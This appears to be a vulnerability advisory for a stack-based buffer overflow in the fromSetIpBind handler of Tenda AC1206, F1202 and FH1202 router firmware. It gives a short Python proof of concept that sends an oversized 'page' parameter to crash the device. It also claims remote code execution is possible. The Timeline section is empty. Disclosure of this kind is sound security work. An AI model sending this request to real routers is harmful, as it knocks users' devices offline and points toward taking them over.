 # Tenda AC1206, F1202, FH1202 Vulnerability

This vulnerability lies in the `fromSetIpBind` function which influences the latest version of Tenda AC1206, F1202 and FH1202. (The latest version is [V15.03.06.23](https://down.tenda.com.cn/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip), [V1.2.0.20(408)](https://down.tenda.com.cn/uploadfile/F1202/US_F1202V1.0BR_V1.2.0.20(408)_CN_TD.zip) and [V1.2.0.20(408)](https://down.tenda.com.cn/uploadfile/FH1202/US_FH1202V1.0BR_V1.2.0.20(408)_CN_TD.zip))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `fromSetIpBind`.

In function `fromSetIpBind` it reads user provided parameter `page` into `page`, and this variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `gotopage`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fromSetIpBind`, the attacker can easily perform a **DoS** or **RCE** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fromSetIpBind?"
url += "page=" + "s" * 0x200

response = requests.get(url)
```

## Timeline


